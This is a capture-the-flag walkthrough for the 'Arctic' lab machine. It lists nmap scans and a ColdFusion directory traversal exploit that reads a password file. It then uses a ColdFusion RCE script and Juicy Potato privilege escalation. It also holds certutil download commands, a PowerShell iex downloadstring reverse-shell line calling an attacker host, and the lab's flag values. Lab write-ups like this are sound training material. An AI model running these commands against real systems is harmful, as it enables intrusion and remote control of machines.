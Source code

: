 # Arctic - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.11

nmap -Pn --script vuln 10.10.10.11

python2 14641.py 10.10.10.11 8500 ../../../../../../../lib/password.properties
#use cfide exploit
#this gives us the password for admin login

#edit the params in RCE script
python3 50057.py
#gives us shell

whoami

whoami /priv
#SeImpersonatePrivilege enabled
#we can use Juicy Potato attack

#in attacker machine
python3 -m http.server

#in victim machine
cd C:\Users\tolis\Desktop

certutil -urlcache -f http://10.10.14.2:8000/JuicyPotato.exe jp.exe

#in attacker machine
#append reverse-shell line to script
vim Invoke-PowerShellTcp.ps1

echo "powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.2:8000/Invoke-PowerShellTcp.ps1')" > shell.bat

nc -nvlp 6666

#in victim machine
certutil -urlcache -f http://10.10.14.2:8000/shell.bat shell.bat

.\jp.exe -t * -p shell.bat -l 4444

#this gives us shell as System on our listener (port 6666)
```

* Open ports & services:

  * 135 - msrpc
  * 8500 - fmtp
  * 49154 - msrpc

* We can attempt to interact with the service on port 8500; we can check it via browser as well.

* Visiting <http://10.10.10.11:8500> gives us two directories - /CFIDE and /cfdocs - and these contain more files within.

* Googling 'CFIDE exploit' gives us a few results for Adobe ColdFusion directory traversal exploits.

* We can try running the directory traversal exploit; the Python script includes the example to print a password file - we can use that.

* Running the exploit gives us an 'encrypted' credential - the MD5 hash can be cracked using online services to give us plaintext 'happyday'.

* Now, looking for login pages in /CFIDE, we get /CFIDE/administrator, which is the login page for user 'admin'.

* Using the previously found cred, we are able to log into as admin; this is the admin page for ColdFusion 8.

* We can search for ways to get reverse shell via ColdFusion admin page - we get an exploit from Exploit-DB which allows us to get RCE.

* After changing the required parameters in the Python script for ColdFusion RCE, running the exploit gives us a shell on the Windows machine as 'tolis'.

* Checking the privileges shows us that we have SeImpersonatePrivilege enabled; we can run Juicy Potato attack to get System.

* After downloading the .exe for JuicyPotato, we can prepare our reverse-shell using Invoke-PowerShellTcp.ps1 script.

* Setting up a listener on attacker machine, and running the required .bat file with Juicy Potato gives us reverse shell as System user.

```markdown
1. User flag - 2c9d9b6175005d17d93a42448d89ca64

2. Root flag - 879caae525f76486d79df60be496430d
```

